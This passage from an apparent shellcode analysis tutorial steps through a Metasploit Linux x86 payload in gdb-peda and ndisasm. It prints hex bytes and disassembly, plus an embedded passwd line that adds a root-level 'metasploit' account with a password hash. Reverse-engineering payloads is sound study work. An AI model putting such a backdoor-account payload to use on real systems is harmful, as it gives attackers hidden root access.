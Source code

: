 <li>It pushes the return address (address immediately after the <strong>call</strong> instruction) on the stack.</li>
<li>It changes <strong>eip</strong> to the call destination. This effectively transfers control to the call target and begins execution there.</li>
</ol>
<p style="text-align:justify;">Having in mind these two operations of the <strong>call</strong> instruction, it is interesting to check <strong>gdb-peda</strong> about the return address that pushed on the stack.</p>
<pre style="color: white;background: #000000;border: 1px solid #ddd;border-left: 3px solid #f36d33;page-break-inside: avoid;font-family: Courier New;font-size: 14px;line-height: 1.6;margin-bottom: 1.6em;max-width: 100%;padding: 1em 1.5em;display: block;white-space: pre-wrap;white-space: -moz-pre-wrap;white-space: -pre-wrap;white-space: -o-pre-wrap;word-wrap: break-word;">0x00404066 &lt;+38&gt;: call 0x404090 &lt;shellcode+80&gt;
<strong>0x0040406b</strong> &lt;+43&gt;: ins DWORD PTR es:[edi],dx</pre>
<p style="text-align:justify;">Afterwards, and when the execution flow redirected at address <strong>0x404090, </strong>by checking that address<strong>&nbsp;</strong>we see the string highlighted in red below.</p>
<pre style="color: white;background: #000000;border: 1px solid #ddd;border-left: 3px solid #f36d33;page-break-inside: avoid;font-family: Courier New;font-size: 14px;line-height: 1.6;margin-bottom: 1.6em;max-width: 100%;padding: 1em 1.5em;display: block;white-space: pre-wrap;white-space: -moz-pre-wrap;white-space: -pre-wrap;white-space: -o-pre-wrap;word-wrap: break-word;">gdb-peda$ p/x $esp
$40 = 0xbffff4d8
gdb-peda$ p/s *0xbffff4d8
$41 = 0x40406b
gdb-peda$ x/-s 0x40406b
<strong>0x40406b</strong> &lt;shellcode+43&gt;: "<span style="color:#FF7F50;">metasploit:Az/dIsj4p4IRc:0:0::/:/bin/sh</span><span style="color:#33cccc;">\n</span>Y\213Q\374j\004X\315\200j\001X\315\200"
gdb-peda$</pre>
<p style="text-align:justify;">Also as seen above the valid string is terminated with the <strong>'\n'</strong> new line character which separates it from the rest invalid characters. Furthermore, analysing the code using <strong>gdb</strong> we can see the following hexadecimal values in red colour below starting from the address <strong>0x40406b</strong></p>
<pre style="color: white;background: #000000;border: 1px solid #ddd;border-left: 3px solid #f36d33;page-break-inside: avoid;font-family: Courier New;font-size: 14px;line-height: 1.6;margin-bottom: 1.6em;max-width: 100%;padding: 1em 1.5em;display: block;white-space: pre-wrap;white-space: -moz-pre-wrap;white-space: -pre-wrap;white-space: -o-pre-wrap;word-wrap: break-word;">gdb-peda$ <strong>x/42x 0x40406b</strong>
0x40406b &lt;shellcode+43&gt;: <span style="color:#FF7F50;">0x6d 0x65 0x74 0x61 0x73 0x70 0x6c 0x6f</span>
0x404073 &lt;shellcode+51&gt;:<span style="color:#FF7F50;"> 0x69 0x74 0x3a 0x41 0x7a 0x2f 0x64 0x49</span>
0x40407b &lt;shellcode+59&gt;: <span style="color:#FF7F50;">0x73 0x6a 0x34 0x70 0x34 0x49 0x52 0x63</span>
0x404083 &lt;shellcode+67&gt;: <span style="color:#FF7F50;">0x3a 0x30 0x3a 0x30 0x3a 0x3a 0x2f 0x3a</span>
0x40408b &lt;shellcode+75&gt;: <span style="color:#FF7F50;">0x2f 0x62 0x69 0x6e 0x2f 0x73 0x68 0x0a</span>
0x404093 &lt;shellcode+83&gt;: <span style="color:#FF7F50;">0x59 0x8b</span></pre>
<p style="text-align:justify;">These bytecodes are actually representing the code between offset <strong>0000002B</strong> and offset <strong>00000053</strong> where the execution is redirected from instruction <strong>call 0x53</strong> as seen from <strong>ndisasm</strong> output below.</p>
<pre style="color: white;background: #000000;border: 1px solid #ddd;border-left: 3px solid #f36d33;page-break-inside: avoid;font-family: Courier New;font-size: 14px;line-height: 1.6;margin-bottom: 1.6em;max-width: 100%;padding: 1em 1.5em;display: block;white-space: pre-wrap;white-space: -moz-pre-wrap;white-space: -pre-wrap;white-space: -o-pre-wrap;word-wrap: break-word;"><strong>0000002B</strong> <span style="color:#FF7F50;">6D</span>               insd
0000002C <span style="color:#FF7F50;">657461</span>           gs jz 0x90
0000002F <span style="color:#FF7F50;">7370</span>             jnc 0xa1
00000031 <span style="color:#FF7F50;">6C</span>               insb
00000032 <span style="color:#FF7F50;">6F</span>               outsd
00000033 <span style="color:#FF7F50;">69743A417A2F6449</span> imul esi,[edx+edi+0x41],dword 0x49642f7a
0000003B <span style="color:#FF7F50;">736A</span>             jnc 0xa7